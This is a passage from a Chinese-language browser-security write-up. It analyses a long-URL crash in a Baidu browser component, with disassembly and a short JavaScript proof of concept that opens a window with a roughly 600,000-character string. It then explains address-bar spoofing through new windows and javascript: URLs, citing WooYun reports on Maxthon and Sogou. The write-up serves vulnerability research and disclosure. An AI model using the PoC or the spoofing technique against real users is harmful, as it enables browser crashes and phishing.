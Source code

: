 ```
bdlogicmain+0x7550: //长于4096字节时:
63617550 8bb56ce2ffff    mov     esi,dword ptr [ebp-1D94h]
63617556 56              push    esi
63617557 8d95fcefffff    lea     edx,[ebp-1004h]
6361755d 52              push    edx
6361755e 53              push    ebx
6361755f ff15c4f48963    call    dword ptr [bdlogicmain!BrowserLogicInit+0x1cff64 (6389f4c4)]
63617565 8b4dfc          mov     ecx,dword ptr [ebp-4]

```

Simple PoC:

```
<script>
var s="A";
var i=1;
for(i=1;i<599559;i++)
s+="A";

alert(1);
window.open(s);

</script>

```

### 0x03d 新窗口的那些事儿 （逻辑安全不全面）

很多厂商都意识到了一个问题，那就是OnBeforeNavigate2的时候，刚chrome.Load()千万不能改地址栏啊，一定不能改地址栏啊，必须等页面全部加载完才可以，结果主窗口做的天衣无缝，完美无瑕，之后就忘了小窗口的事情。 小窗口怎么产生呢？

```
window.open

```

这个简单无比，到处可见此类弹窗小广告，被广告拦截的几率非常大，可以忽视

[WooYun: 傲游浏览器4.1.2.2000伪造任意网站漏洞](http://www.wooyun.org/bugs/wooyun-2013-034463)

target 但是这个基本就没人拦了，但是蛋疼的是带有url变化的东西都能接上这个，比如anchor，比如form，这个可以参考：

[WooYun: 傲游浏览器4.3.0.100 表单请求伪造网站漏洞（可钓鱼）](http://www.wooyun.org/bugs/wooyun-2014-051859)

[WooYun: 搜狗浏览器4.2.2.9903任意网站伪造＋自有协议下XSS*2](http://www.wooyun.org/bugs/wooyun-2013-041721)

厂商也意识到了，是啊，不加载完不能换地址，一定要到OnDocumentComplete，要到documentComplete()才行，可是唯独忘了程序创建新窗口的时候也不能把地址栏给设置上，这样就导致了很多问题。

因为攻击者弹出来的东西可能并不会去瞎加载一些乱七八糟的网站，他们转而可能在小窗口上运行脚本，脚本执行完之后确实产生了页面完成事件，“但是在这上面执行的javascript:开头的地址肯定是不能替换当前地址的呀，那么还是保持之前的地址好了”，这个逻辑仿佛就是“现在我做的事不对，那么前面做的事一定是正确的”，结果正中攻击者下怀，脏数据写到了页面上，脏地址倒也被当作正确地址留下来了。

### 0x03e xss导致的更严重的问题 （插件安全不全面）

越来越多的浏览器做了插件，可以让用户自行选择，这是个好事情，因为这样不必让本来只想找个小菜刀做饭的用户一下背了一个核弹发射场回家。大厂商转而大度的把装备扔自己网站上，大家是要杀人越货还是要干什么，尽管自取。
